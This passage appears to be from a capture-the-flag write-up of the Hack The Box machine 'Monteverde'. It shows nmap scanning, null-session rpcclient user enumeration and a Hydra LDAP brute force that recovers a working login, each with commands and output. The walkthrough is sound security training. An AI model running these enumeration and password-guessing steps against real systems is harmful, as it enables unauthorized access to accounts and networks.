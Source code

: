 49667/tcp|msrpc|Microsoft Windows RPC
49673/tcp|ncacn_http|Microsoft Windows RPC over HTTP 1.0
49674/tcp|msrpc|Microsoft Windows RPC
49677/tcp|msrpc|Microsoft Windows RPC
49706/tcp|msrpc|Microsoft Windows RPC

### UDP

```bash
luc@kali:~/HTB/Monteverde$ nmap -vv --reason -Pn -sU -A --top-ports=20 --version-all 10.10.10.172
```

|Port|Service|Version
|---|---|---|
53/udp|domain|(generic dns response: SERVFAIL)

## RPC

We can list users on the machine via `rpcclient`. We don't need to send an username and password to connect.

```bash
luc@kali:~/HTB/Monteverde$ rpcclient 10.10.10.172 -U '' -N
rpcclient $> enumdomusers
user:[Guest] rid:[0x1f5]
user:[AAD_987d7f2f57d2] rid:[0x450]
user:[mhope] rid:[0x641]
user:[SABatchJobs] rid:[0xa2a]
user:[svc-ata] rid:[0xa2b]
user:[svc-bexec] rid:[0xa2c]
user:[svc-netapp] rid:[0xa2d]
user:[dgalanos] rid:[0xa35]
user:[roleary] rid:[0xa36]
user:[smorgan] rid:[0xa37]
```

## Brute force user password

We haven't found any passwords or password hints, but we can always guess on users being lazy. We can try the usernames as passwords. We also need a service that is supported by Hydra that we can do our brute force attack on, in this case we'll use LDAP.

```bash
luc@kali:~/HTB/Monteverde$ printf 'Guest\nAAD_987d7f2f57d2\nmhope\nSABatchJobs\nsvc-ata\nsvc-bexec\nsvc-netapp\ndgalanos\nroleary\nsmorgan' > users.txt
luc@kali:~/HTB/Monteverde$ hydra -L users.txt -P users.txt 10.10.10.172 ldap2
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-06-13 12:28:33
[DATA] max 16 tasks per 1 server, overall 16 tasks, 100 login tries (l:10/p:10), ~7 tries per task
[DATA] attacking ldap2://10.10.10.172:389/
[389][ldap2] host: 10.10.10.172   login: SABatchJobs   password: SABatchJobs
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-06-13 12:28:34
```
